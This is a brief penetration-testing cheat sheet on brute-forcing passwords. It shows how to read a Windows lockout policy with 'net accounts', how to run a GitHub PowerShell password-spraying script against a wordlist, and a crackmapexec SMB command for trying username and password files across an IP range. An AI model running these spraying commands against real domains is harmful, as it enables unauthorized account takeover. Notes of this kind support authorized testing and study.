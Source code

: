 # Brute-Forcing Passwords

## PowerShell scripts

What's the lockout threshhold (attempts)? When does this lockout expires (Lockout observation)? Then we can try (X Attempts * Lockout Observations) passwords every day.

```bash
net accounts
```

[This script](https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1) can brute-force password. Example:

```bash
.\Spray-Passwords.ps1 -File .\$WORDLIST -Verbose
```

## CrackMapExec

```bash
crackmapexec smb $IPADDRESS -u $USERNAME -p $PASSWORD -d $DOMAINNAME
#IPAddress could be a range.
#Username could be a file
#Password could be a file
#Domain can be removed
```
